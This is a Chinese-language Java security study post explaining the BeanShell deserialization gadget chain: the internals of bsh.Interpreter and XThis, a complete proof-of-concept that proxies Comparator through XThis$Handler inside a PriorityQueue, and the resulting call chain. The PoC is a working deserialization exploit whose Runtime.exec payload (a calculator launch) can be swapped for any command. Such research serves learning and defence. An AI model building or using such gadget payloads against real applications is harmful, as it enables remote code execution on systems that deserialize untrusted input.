

# Java安全学习— BeanShell链

Author: H3rmesk1t

Data: 2022.03.16

# BeanShell 简介
[BeanShell](https://en.wikipedia.org/wiki/BeanShell) is a small, free, embeddable Java source interpreter with object scripting language features, written in Java. It runs in the Java Runtime Environment (JRE), dynamically executes standard Java syntax and extends it with common scripting conveniences such as loose types, commands, and method closures, like those in Perl and JavaScript.

# 前置知识
## Interpreter
`bsh.Interpreter`是一个将`BeanShell`脚本解释并执行的解释器. 可以通过`set`方法来设置变量, 然后通过`eval`方法来解释和执行脚本, 解析和设置的变量都会保存在`Interpreter`实例的成员变量`globalNameSpace`中. `bsh.NameSpace`就是一个保存着方法、变量、引入包的命名空间. `NameSpace`与一个`Interpreter`实例共同构成了一个`Bsh`脚本对象的上下文.

<div align=center></div>

<div align=center></div>

## XThis
`bsh.This`是`Bsh`脚本对象类型, 一个`This`对象就是一个`Bsh`脚本的对象的上下文, 一个`This`对象储存了`NameSpace`和`Interpreter`, 并提供了一些方法用于操作上下文中的内容.

<div align=center></div>

其中`invokeMethod`方法提供了使用`Java`代码从`Bsh`脚本外部调用方法的功能.

`XThis`是`bsh.This`对象的子类, 在`This`的基础上添加了通用接口代理机制的支持, 即`InvocationHandler`. `XThis`中有一个内部类`Handler`, 实现了`InvocationHandler`接口并重写了`invoke`方法, 调用了`invokeImpl`方法. `invokeImpl`方法特殊处理了`equals`和`toString`方法, 调用`invokeMethod`执行对应的方法, 并使用`Primitive.unwrap`处理返回值.

<div align=center></div>

总的来说, `XThis`是一个`Bsh`脚本的对象的代理类, 可以在外部通过这个代理类调用`Bsh`脚本的方法.

# POC
```java
package org.h3rmesk1t.BeanShell;

import bsh.Interpreter;
import bsh.XThis;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:11 上午
 */
public class BeanShellExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    
    public static void main(String[] args) throws Exception {

        // compare 函数, 需要接受两个参数, 返回 Integer 类型.
        String func = "compare(Object whatever,Object dontCare) {java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");return new Integer(1);}";

        // 将 compare 方法注册至 Interpreter 实例上下文中.
        Interpreter interpreter = new Interpreter();
        interpreter.eval(func);

        // 创建 XThis 对象, 获取其 invocationHandler.
        XThis xThis = new XThis(interpreter.getNameSpace(), interpreter);
        Field handlerField = XThis.class.getDeclaredField("invocationHandler");
        handlerField.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) handlerField.get(xThis);

        // 使用 XThis$Handler 为 Comparator 创建动态代理
        Comparator<Object> comparator = (Comparator<Object>) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        // 序列化操作.
        String exp = serialize(queue);
        System.out.println(exp);

        // 反序列化操作.
        unserialize(exp);
    }
}
```

# 调用链
```java
PriorityQueue.readObject()
    Comparator.compare()
            XThis$Handler.invoke()
                XThis$Handler.invokeImpl()
                    This.invokeMethod()
                        BshMethod.invoke()
```

# 总结
## 利用说明
利用`PriorityQueue`反序列化触发`Comparator`的`compare`方法, 使用`XThis$Handler`动态代理`Comparator`并在其`Interpreter`内构造带有恶意代码的`compare`方法触发调用.

## Gadget
 - kick-off gadget: java.util.PriorityQueue#readObject
 - sink gadget: bsh.This#invokeMethod
 - chain gadget: bsh.XThis$Handler#invokeImpl
 - 补充: 其实可以利用`XThis`来实现任意`kick-off`的触发, 这是因为可以使用动态代理执行任何方法.

# 参考
 - [BeanShell](https://su18.org/post/ysoserial-su18-5/#:~:text=rome%20%3A%201.0-,BeanShell,-BeanShell%20%E6%98%AF%E4%B8%80%E4%B8%AA)